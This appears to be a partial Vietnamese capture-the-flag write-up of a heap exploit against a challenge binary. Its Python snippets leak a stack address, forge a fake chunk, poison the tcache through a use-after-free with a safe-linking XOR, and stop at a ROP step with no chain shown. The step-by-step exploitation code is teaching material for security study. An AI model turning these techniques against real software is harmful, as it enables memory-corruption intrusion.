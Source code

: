 ## Leak stack

```python
create(0x50, b'a\n') # 3
create(0x50, b'a\n') # 4
create(0x50, b'a\n') # 5
create(0x50, b'a\n') # 5
stack = gift()
info("Stack: " + hex(stack))
```

## Fake chunk

```python
payload = flat(
        stack+0xa0,
        0, 0x60,
        0, 0,
        0, 0,
        0, 0,
        0, 0,
)
write(payload)
```

## Free fake chunk

- Mục đích free 2 chunk 5 6 để tăng biến count trong tcache, khi unlink ta còn lượt count để malloc

```python
remove(5)
remove(6)
remove(17)
```

## UAF

```python
payload = flat(
        (stack+0xa0),
        0, 0x60,
        (stack + 0x100) ^ (stack + 0xa0) >> 12, 0, # ret main ^ fake chunk >> 12
        0, 0,
        0, 0,
        0, 0,
)
write(payload)
```

## ROP

- Ta có option 5 để kết thúc chương trình nên mình chọn nó để ROP
